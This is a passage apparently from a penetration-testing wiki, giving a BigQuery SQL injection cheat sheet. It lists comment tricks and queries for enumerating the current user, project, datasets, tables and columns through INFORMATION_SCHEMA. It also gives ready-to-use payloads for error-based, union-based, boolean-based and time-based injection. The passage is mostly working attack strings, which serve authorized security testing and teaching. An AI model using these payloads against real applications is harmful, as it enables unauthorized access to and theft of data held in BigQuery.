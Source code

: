 {% endcode %}

### BigQuery SQL Injection

For further information you can check the blog post: [https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac). Here just some details are going to be given.

**Comments**:

* `select 1#from here it is not working`
* `select 1/*between those it is not working*/` But just the initial one won't work
* `select 1--from here it is not working`

Get **information** about the **environment** such as:

* Current user: `select session_user()`
* Project id: `select @@project_id`

Get **datasets**, **tables** and **column** names:

* **Project** and **dataset** name:

{% code overflow="wrap" %}
```sql
SELECT catalog_name, schema_name FROM INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

* **Column** and **table** names:&#x20;

{% code overflow="wrap" %}
```sql
# SELECT table_name, column_name FROM <proj-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS

SELECT table_name, column_name FROM digital-bonfire-410512.importeddataset.INFORMATION_SCHEMA.COLUMNS
```
{% endcode %}

* **Other datasets** in the same project:&#x20;

{% code overflow="wrap" %}
```sql
# SELECT catalog_name, schema_name, FROM <proj-name>.INFORMATION_SCHEMA.SCHEMATA

SELECT catalog_name, schema_name, NULL FROM digital-bonfire-410512.INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

**SQL Injection types:**

* Error based - casting: `select CAST(@@project_id AS INT64)`
* Error based - division by zero: `' OR if(1/(length((select('a')))-1)=1,true,false) OR '`
* Union based: `UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#`
* Boolean based: ``' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#``
* Potential time based - Usage of public datasets example: ``SELECT * FROM `bigquery-public-data.covid19_open_data.covid19_open_data` LIMIT 1000``
